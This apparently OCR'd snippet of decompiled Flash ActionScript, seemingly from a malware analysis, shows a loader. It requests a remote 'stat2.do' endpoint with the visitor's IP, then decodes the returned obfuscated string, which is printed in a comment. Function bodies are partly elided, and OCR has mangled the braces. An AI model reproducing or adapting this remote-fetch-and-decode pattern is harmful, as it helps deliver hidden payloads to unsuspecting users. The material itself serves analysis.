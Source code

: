 

```
private function fetchit() : void
      `{`
         var _loc1_:String = this.host + "stat2.do?p=" + this.ipStr;
         var _loc2_:URLLoader = new URLLoader();
         _loc2_.dataFormat = URLLoaderDataFormat.TEXT;
         _loc2_.addEventListener(SecurityErrorEvent.SECURITY_ERROR,securityErrorHandler);
         _loc2_.addEventListener(IOErrorEvent.IO_ERROR,ioErrorHandler);
         _loc2_.addEventListener(Event.COMPLETE,this.fetchcallback);
         _loc2_.load(new URLRequest(_loc1_));
      `}`
 
      private function fetchcallback(param1:Event) : void
      `{`
         ...
            this.preappend();
         ...
      `}`
      private function preappend() : void
      `{`
         ...
            this.decodeArray(_loc1_.data.oarr);
         ...
      `}`
      private function decodeArray(param1:String) : void
      `{`
         var _loc5_:String = null;
         var _loc6_:Array = null;
         var _loc2_:BaseCoder = new BaseCoder();
         var _loc3_:String = _loc2_.decode(param1);
         ...
      `}`
 
/* stat.do?p=xyz returns:
 
IYnsjNqhTNBha5a4M5^^FgG0Mg^Ap_j~  
1uOdIYAWz_nwLZfEJN6W5N6ecbB4qu6dcihWnbOQ5jrvLN86jY6hH58wk5chHR8wIiKFZjGvr_pFUjnQr_pFr_pF5byeVRpPzNzGab6WL5KhcRyQ^b6P2u^Pr_pFCN6WcY^m^u^G1RKG5NOGJbhmJbqdUiWdpN6Gr_pFUbrerbDFXtDWajrQXZDgrHph1uOdYYDv^tDW2Z8ECtOgcj6W8jKQzjpwjbKwJRlQ5N6vCb84TYvFUY^6RYBF1t^woYad5NveIiAg5_^PIZA4I_Amc_6w1P8QcuDmCRKwRY865NKGqPcQ^jnQIiAmC_OmkYK6pipw7izwcbhgnbOQBROQ2Z^wcj0gIjAWc_qw8bAdr_pF5_KERNpET_A1i_lwYjDF^tDW2Z8ECtOgLRKhpipw7izwcbhgnbOQqi8Gr_pF7ZpvHZDd^t6W8bDQ^t6W1blGIiAmz_nwLZfEJNgWcY^4^u^G1RKG5NOGJbhmJbqdUiWdpN6Gr_pFT_A1^_Gwciewr_pF2unEDjOFXN6v^NGGciewquew5NOGJb^mjiaFC58WktWsiNrQ5RDPJoOQ^u^Q5NveIiAg^_GwciewB2zGzjFQJb9QUuswoiDP^tvWjZKviu^wjbKGJRlQr_pF^ZXwr_pF2unEDjOFXNBQUN0GUugwaRKwJRlQ5NrQUbXvTiKPYuDeXtDWUbvG2TzkHZpdZN^G2Zp1HbDwl_jmJ7jqr7DWkYnho5a6RYn6pt542RDP7Nze2bOGIbpmLypF2NOe2HWvcuewY_QFl_5m2RDP7NOecZXw1_1Fp5542RDP7Nze2bOGIbpmz_mm^taWI36Pr_pF2unEDjOFYNWv1NDequew5NOGJb6m1ZndYuOwLYWFY5q6LiQs^YzsViXsct64RZDQ^t6WoiDPXtDW^tyWzPqQouDw^tDW2Z8ECtOgkYK6pipw7izwcbhgnbOQBROQ2Z^wIjKeYuDe^tQWTRIPRPJvJNyqUupEniDFawAqDPpml_CFX7O4cu^mU3hd2_OdURlvcinw5NOGlbpQXiAmRPMvUihd2b^Q7U7UJolQJjKdcinwJ_Q11wZ6p_js87eqItAWz_6mBbQg_o~~  
*/
```
